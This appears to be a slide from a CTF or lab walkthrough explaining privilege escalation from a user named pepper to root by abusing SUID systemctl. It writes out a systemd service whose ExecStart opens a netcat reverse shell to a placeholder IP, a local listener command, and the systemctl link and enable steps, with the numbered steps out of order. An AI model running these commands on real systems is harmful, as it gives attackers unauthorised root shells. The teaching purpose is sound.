

Privilege Escalation: Pepper -> Root
Look up systemctl on GTFO BINS: https://gtfobins.github.io/gtfobins/systemctl/#suid
Summary: We need to create a service and run it. Google "How create service linux"

2. Create a service file:
[Unit]
Description=Ownage
[Service]
ExecStart=/bin/sh –c “nc YOUR_IP PORT -e /bin/bash”
[Install]
WantedBy=multi-user.target
3. Get this file onto the target machine. Preferably in /home/pepper.
Use the same simple server + wget method that was used for LinEnum earlier.
4. Start your listener (Locally): nc –nlvp 4446
6. Watch your reverse shell connect and type whoami

You are now root.
5. Link and Enable service (On Target):
$ systemctl link /home/pepper/SERVICE_FILE
$ systemctl enable --now /home/pepper/SERVICE_FILE